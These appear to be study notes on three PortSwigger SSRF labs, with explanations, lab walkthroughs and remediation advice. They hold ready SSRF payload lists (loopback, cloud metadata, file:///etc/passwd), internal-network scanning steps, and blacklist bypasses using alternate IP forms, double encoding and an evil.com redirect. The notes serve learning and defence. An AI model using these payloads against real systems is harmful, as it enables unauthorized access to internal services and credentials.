

# 📘 SSRF Lab-1 (Server-Side Request Forgery) — Full Notes

## 🟪 One‑Line Summary
> **SSRF lets attackers make the server send requests to internal URLs, often bypassing authentication and gaining admin access.**

---

## 🟦 What is SSRF?
SSRF (Server-Side Request Forgery) is a vulnerability where an attacker tricks the server into sending HTTP requests on its behalf.

- Attacker CANNOT reach internal systems directly.
- But server CAN.
- So attacker forces the server to request hidden/internal URLs.

Example vulnerable parameter:
```
stockApi=http://api.company.com/check?product=1
```

If changing the URL changes what the server loads → SSRF exists.

---

## 🟥 Why SSRF Matters (Why It’s Dangerous)
With SSRF, attackers can:

- Access **internal admin panels**
- Access **internal-only microservices**
- Read **sensitive files / metadata**
- Perform **privileged actions** as the server
- Bypass authentication using `localhost`
- Potentially escalate to **RCE**

Some SSRF → complete cloud account takeover.

---

## 🟧 Real‑World Scenarios (Where SSRF Happens)
### 🏦 Banks / FinTech
Internal services:
- transaction approval
- admin dashboards
- audit logs

### 🛒 E‑Commerce (just like the lab)
- stock APIs
- pricing APIs
- /admin dashboards
- /internal-ui

### 🏥 Healthcare
- patient records
- doctor API dashboards
- lab result systems

### 🏢 Enterprise SaaS
- employee admin systems
- billing panels
- internal analytics
- feature toggles

One SSRF → unrestricted internal access.

---

## 🟥 Common SSRF Payloads
```
http://localhost/
http://127.0.0.1/
http://169.254.169.254/     # Cloud metadata
file:///etc/passwd
http://internal-service/admin
```

---

## 🔥 High‑Value Endpoints (Priority Targets in Real World)
### 🔥 Priority 1
```
/admin
/internal
/config
/debug
/system
/manage
/api/admin/
```

### 🔥 Priority 2 — Internal Ports
```
8000–9000
5000–5001
3000
15672
8080/8443
```

### 🔥 Priority 3 — Cloud Metadata
```
169.254.169.254          # AWS
169.254.169.254/computeMetadata     # GCP
169.254.169.254/metadata/identity   # Azure
```

---

## 🟩 How SSRF Works (Simple Explanation)
A feature accepts a URL from the user → backend fetches it → attacker points it to localhost/internal systems.

Example:
```
stockApi=http://localhost/admin
```

Why it works:
- many apps trust localhost
- internal admin panels often skip auth if request is internal
- backend → makes request BEFORE frontend auth checks

---

## 🟦 SSRF Loopback Attack (Against Server Itself)
Payload:
```
http://localhost/admin
```

Benefits:
- bypass login
- retrieve admin area
- perform admin actions via SSRF request

---

# 🟨 LAB WALKTHROUGH (PortSwigger Basic SSRF)

## 🎯 Goal
Use SSRF via stock checker → access admin panel → delete user **carlos**.

## ✔ Vulnerable Parameter
```
stockApi=
```

## 🛠 Steps
1. Open any product → **Check Stock**
2. Intercept request → **Send to Repeater**
3. Replace parameter:
   ```
   stockApi=http://localhost/admin
   ```
4. Send → Admin panel HTML appears (SSRF confirmed)
5. Locate delete link:
   ```
   /admin/delete?username=carlos
   ```
6. Trigger delete:
   ```
   stockApi=http://localhost/admin/delete?username=carlos
   ```
7. Send → Carlos deleted → **Lab solved**

---

## 🟫 Why This Lab Is Vulnerable
- Server accepts user-supplied URL.
- Server automatically performs internal requests.
- Auth bypass happens because localhost is trusted.
- Backend fetch happens BEFORE auth enforcement.

---

# 🖼 Evidence (Screenshot Placeholder)

### Screenshot-1
  
   (Screenshot: modified stockApi → server fetched admin HTML showing admin links.)

### Screenshot-2
  
   (Screenshot: second SSRF showing delete request/response and confirmation that carlos was removed.)   

---

# 🟩 Remediation (How to Prevent SSRF)
### ✔ Allowlist URLs (strongest)
Only allow pre-approved domains:
```
api.company.com
assets.company.com
```

### ✔ Block internal IPs
```
127.0.0.1
10.0.0.0/8
192.168.0.0/16
169.254.169.254
```

### ✔ Network-level egress filtering
- block metadata
- block internal-only ports

### ✔ Sanitize & validate URL inputs
- restrict protocols (no file://, gopher://, ftp://)
- block redirect-based SSRF
- resolve IP before allowlist check

---

# ⭐ Real‑World Flowchart (Mental Model)

> **If the app fetches a URL → you control the server’s browser → you can access everything the server can.**

---

# 📘 SSRF Lab-2 (Internal Network Scan & Pivoting) — Full Write-Up

## 🟪 One-Line Summary
> **This SSRF allows scanning internal `192.168.0.X` systems and accessing hidden admin panels on port 8080, leading to full account deletion using an encoded admin payload.**

---

## 🟦 What Is This Topic?
This lab focuses on **SSRF → Internal Network Pivoting**, where the backend fetches URLs supplied by the user.

Private internal ranges:
```
192.168.0.0 – 192.168.0.255
10.0.0.0 – 10.255.255.255
172.16.0.0 – 172.31.255.255
```

These internal hosts typically run:
- Admin panels  
- Internal APIs  
- Dev dashboards  
- Database interfaces  
- Message brokers  
- Cloud metadata  

SSRF allows attackers to **reach these machines as if they are inside the network**.

---

## 🟥 Why This Matters
This lab demonstrates the most dangerous real-world SSRF scenario:

- Scan internal networks from outside  
- Find hidden admin ports  
- Bypass firewall protections  
- Access internal dashboards  
- Delete users without authentication  
- Perform full internal pivoting  

This is exactly how **Capital One’s SSRF breach** happened.

---

## 🟧 Real-World Scenarios (Where This Happens)
### 🏦 Banks
Internal servers serving:
- AML dashboards  
- Transaction approval endpoints  
- Account editing forms  

### 🏥 Healthcare
Internal-only:
- Patient records  
- Lab systems  
- FHIR APIs  

### 🛒 E-Commerce
- Stock management  
- Inventory admin  
- Pricing engines  

### 🏢 Enterprise SaaS
- Hidden admin panels  
- Billing engines  
- Debug dashboards  

---

## 🟥 Common SSRF Payloads
```
http://192.168.0.1/
http://10.0.0.5:8080/admin
http://127.0.0.1:5000/
http://169.254.169.254/latest/meta-data/
```

---

## 🔥 High-Value Endpoints
### Internal Admin Paths
```
/admin
/administrator
/manage
/dashboard
/console
/control
```

### Critical Ports
```
8080 – Admin panels, Tomcat
8000 – Internal APIs
5000 – Dev/Flask
3000 – Node dashboards
9000 – Dev servers
9200 – Elasticsearch
27017 – MongoDB
```

### Cloud Metadata
```
http://169.254.169.254/latest/meta-data/
```

---

# 🟨 LAB WALKTHROUGH — PortSwigger: SSRF With Internal Network Scan

## 🎯 Goal
- Scan internal IP range → find admin running on **port 8080**  
- Access:  
  `http://192.168.0.X:8080/admin`  
- Delete user *carlos* using encoded SSRF payload

---

# 🟧 STEP 1 — Intercept the Stock Check Request
1. Open a product page  
2. Click **Check Stock**  
3. Intercept → **Send to Intruder**

You now control:
```
stockApi=
```

---

# 🟦 STEP 2 — Set Internal IP Scan Range
Modify request to:
```
stockApi=http://192.168.0.1:8080/admin
```

Highlight the last octet (**1**) → click **Add §**.

---

# 🟩 STEP 3 — Configure Intruder Payload
- Payload type: **Numbers**  
- From: **1**  
- To: **255**  
- Step: **1**

You will now scan the entire subnet.

---

# 🟥 STEP 4 — Run The Scan
Click **Start Attack**

Sort by **Status**:

- Most responses: `500 / 404 / 302`
- Exactly **one response**: `200 OK`

This means **this IP hosts the admin panel**.

Example discovered target:
```
http://192.168.0.57:8080/admin
```

---

# 🟧 STEP 5 — Access Admin Panel via SSRF
Send the 200 OK request to **Repeater**.

Check:
```
stockApi=http://192.168.0.57:8080/admin
```

Repeater returns **admin page HTML** → SSRF working.

---

# 🟩 STEP 6 — Delete the User (Encoded Payload)
The admin delete function typically looks like:
```
/admin/delete?username=carlos
```

But due to firewall/WAF, we encode the query string:

```
/admin/delete%3Fusername%3Dcarlos
```

Final exploit:
```
stockApi=http://192.168.0.57:8080/admin/delete%3Fusername%3Dcarlos
```

Send → user **carlos deleted** → **Lab solved**.

---

### 🖼 Evidence Screenshot #2 (Encoded Delete Payload)

### Screenshot-1
  
(Screenshot 1: HTML/Elements view showing the /delete?username=carlos link.)

### Screenshot-2
  
(Screenshot 2: final SSRF request/response showing the delete action executed and confirmation.)

---

# 🟫 Why This Lab Is Vulnerable
- Backend trusts internal networks  
- Server fetches URLs directly from user input  
- No allowlist  
- No internal IP filtering  
- Admin panel on 8080 does not require authentication  

This is **real pentesting gold**.

---

# ⭐ Real-World Pentesting Knowledge From This Lab
You learned:
- Internal IP scanning via SSRF  
- Identifying reachable internal services  
- Pivoting deeper into the network  
- Admin dashboard abuse  
- Query parameter encoding to bypass filters  

This is 1:1 with real-world SSRF exploitation.

---

# 🟩 Remediation
### ✔ URL Allowlist
Allow only:
```
https://api.company.com
```

### ✔ Block Internal IP Ranges (RFC1918)
```
10.0.0.0/8
192.168.0.0/16
172.16.0.0/12
```

### ✔ Egress Firewall Filtering
Block server from accessing:
- metadata endpoints  
- internal admin ports  
- dev servers  

### ✔ Strip dangerous protocols
No:
```
file://
gopher://
ftp://
```

### ✔ Validate then resolve domain
Resolve DNS → check IP → confirm it’s allowed.

---

# 🟪 Mental Model Summary
> If you can control even one URL parameter → you control the server’s internal browser → scan & attack the entire internal network.

---

# ⭐ SSRF Lab-3 – Blacklist Filter Bypass (Alternate IPs + Double Encoding)

---

## 🟩 1. ONE LINE SUMMARY
Bypass SSRF blacklist filters using **alternate IP formats (127.1)** and **double-encoding (%2561dmin)** to access the internal admin panel and delete a user.

---

## 🟦 2. WHAT IS THIS TOPIC?
This topic is about **Server-Side Request Forgery (SSRF)** where the web app tries to block dangerous internal URLs using a **blacklist** such as:

- `localhost`
- `127.0.0.1`
- `/admin`

Attackers easily bypass this by using:
- Alternate IP notations  
- Encoded paths  
- Double URL encoding  

---

## 🟪 3. WHY THIS MATTERS?
Blacklists DO NOT WORK.

Attackers can still reach:
- Internal admin dashboards  
- Cloud metadata APIs  
- Debug endpoints  
- Internal microservices  

A blacklist always misses some alternate form.  
A skilled attacker only needs ONE bypass to gain internal access.

---

## 🟫 4. REAL-WORLD SCENARIOS
### 🔹 Scenario 1 — WAF blocks localhost, attacker uses 127.1  
WAF blocks:
- `localhost`
- `127.0.0.1`  

Attacker uses:
```
http://127.1/admin
```

### 🔹 Scenario 2 — Keyword "admin" is blocked, attacker double-encodes
```
/%2561dmin
```
Decoder: `%25` → `%` → `%61` → `a` → becomes `/admin`.

### 🔹 Scenario 3 — Redirect-based SSRF bypass  
Attacker redirects via:
```
evil.com/redirect → 302 → http://127.1/admin
```
Server follows redirect → bypass win.

### 🔹 Scenario 4 — Alternate encodings of internal IP  
Integer form:
```
http://2130706433/
```

Octal form:
```
http://017700000001/
```

Metadata accessed anyway.

---

## 🟥 5. COMMON SSRF BLACKLIST BYPASS PAYLOADS
```
127.1
127.0.1
127.00.00.01
2130706433
017700000001
%2561dmin
%2e%2e%2fadmin
```

---

## 🟧 6. HIGH VALUE INTERNAL ENDPOINTS
```
127.1/admin
127.1/dashboard
localhost/manager/html
169.254.169.254/latest/meta-data/
127.1/debug
127.1/actuator/env
127.1:5000/api/internal
```

---

## 🟨 7. LAB WALKTHROUGH (STEP-BY-STEP)

### 🔸 Step 1 — Open product → Check Stock  
Intercept request → **Send to Repeater**.

### 🔸 Step 2 — Try localhost (blocked)
```
http://127.0.0.1/
```
Response: ❌ Blocked by blacklist.

### 🔸 Step 3 — Bypass using short IP  
```
http://127.1/
```
Response: ✅ Works.

### 🔸 Step 4 — Try admin (blocked)
```
http://127.1/admin
```
Response: ❌ Keyword "admin" blocked.

### 🔸 Step 5 — Double encode “a” → bypass blacklist  
```
/admin  
a → %61  
Double encoded: %2561
```

Final path:
```
http://127.1/%2561dmin
```

### 🔸 Step 6 — Delete Carlos  
```
http://127.1/%2561dmin/delete?username=carlos
```
Send → User deleted → Lab solved.

---

## 🟩 8. EVIDENCE (SCREENSHOT)


---

## 🟦 9. REMEDIATION
- ❗ Replace blacklist with **strict allowlist**
- Restrict outbound traffic from server  
- Block **ALL** internal IP ranges (RFC1918)  
- Disable redirects  
- Validate URL AFTER DNS + after redirect  
- Enforce egress firewall rules  

---
